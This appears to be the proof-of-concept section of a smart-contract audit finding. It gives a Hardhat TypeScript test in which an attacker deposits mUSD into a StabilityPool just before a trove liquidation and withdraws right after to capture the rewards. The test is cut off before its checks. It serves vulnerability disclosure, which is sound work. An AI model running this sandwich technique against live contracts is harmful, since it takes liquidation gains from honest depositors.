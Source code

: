 ### Proof of Concept
The following test can be pasted in the `StabilityPool.test.ts` file. To make the test work it is necessary to also import:
```typescript
import hre from "hardhat";
import { formatUnits } from "ethers";
```

PoC:
```typescript
it("Attacker profits by sandwiching a liquidation across blocks", async () => {
      const { stabilityPool, priceFeed } = contracts;

      // Step 1: Alice provides most of the SP
      await openTrovesAndProvideStability(contracts, [alice], "20,000", "200");

      // Step 2: Dennis opens unhealthy trove
      await openTrove(contracts, {
        musdAmount: "10,000",
        ICR: "110",
        sender: dennis.wallet,
      });

      // Step 3: Bob opens healthy trove to source mUSD
      await openTrove(contracts, {
        musdAmount: "1,800",
        ICR: "200",
        sender: bob.wallet,
      });

      // Give Carol a good slice
      const depositAmount = to1e18("1000");
      await transferMUSD(contracts, bob, carol, depositAmount);
      await updateStabilityPoolUserSnapshot(contracts, carol, "before");
      await updateWalletSnapshot(contracts, carol, "before");
      await updateWalletSnapshot(contracts, bob, "before");

      // Checks for before deposit
      const beforeDepositPrice = await priceFeed.fetchPrice();
      const getUSDValue = (user: User) =>
        user.musd.before +
        (user.btc.before * beforeDepositPrice) / to1e18("1");
      const combinedBefore =
        getUSDValue(bob) + getUSDValue(carol);

      // Step 4: Carol deposits into SP because she sees a coming liquidation
      await provideToSP(contracts, carol, depositAmount);

      // Force next block (simulate separation)
      await hre.network.provider.send("evm_mine");

      // Step 5: Price drops & Dennis gets liquidated
      await dropPriceAndLiquidate(contracts, deployer, dennis);

      // Force another block
      await hre.network.provider.send("evm_mine");

      // Step 6: Carol withdraws her deposit (plus rewards)
      await contracts.stabilityPool.connect(carol.wallet).withdrawFromSP(depositAmount);
      await updateStabilityPoolUserSnapshot(contracts, carol, "after");
      await updateWalletSnapshot(contracts, carol, "after");

      // Checks for after withdrawal
      await updateWalletSnapshot(contracts, bob, "after");
```